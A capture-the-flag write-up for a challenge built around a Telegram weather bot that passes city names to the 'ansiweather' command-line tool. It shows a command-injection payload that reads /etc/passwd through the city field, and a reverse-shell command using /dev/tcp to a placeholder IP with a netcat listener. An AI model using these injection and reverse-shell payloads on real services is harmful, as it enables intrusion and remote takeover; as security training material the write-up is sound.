

# MISC //   🌤️ Weather
 
Tired of looking outside your window to check the weather? Use our bot. It's on telegram, so it has to be safe!

https://t.me/eetua0gahf_bot

# Writeup

Creating a Telegram account and adding the bot I get this: 


Adding dummy data to break it I get this:


That error message matches a software named `ansiweather` which is a command line tool for weather forecasts. So are we injecting into command line?



After a bit of trial and error @decoy sends me this:

```bash
Arendal" && cat /etc/passwd #
```

And we get the `lfi`:


Now just find the flag with `ls` and then `cat`


# Reverse Shell

Using `nc -knlvp 1234` on my remote server and running `/weather Norway" && bash -i >& /dev/tcp/<MY IP>/1234 0>&1 & #` I get remote shell.

